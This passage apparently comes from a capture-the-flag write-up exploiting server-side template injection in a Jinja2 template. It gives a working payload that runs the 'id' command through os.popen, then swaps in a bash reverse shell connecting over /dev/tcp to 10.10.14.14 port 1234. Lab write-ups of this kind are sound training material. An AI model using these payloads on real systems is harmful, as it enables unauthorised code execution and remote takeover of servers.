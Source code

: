 [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) showed that we can exploit the SSTI by calling `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`.

![ssti_id](ssti_id.png)

Nice! it works. Now, we can just change the `id` portion of the payload to a reverse shell code.

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "exec bash -i &>/dev/tcp/10.10.14.14/1234 <&1"').read() }}
```
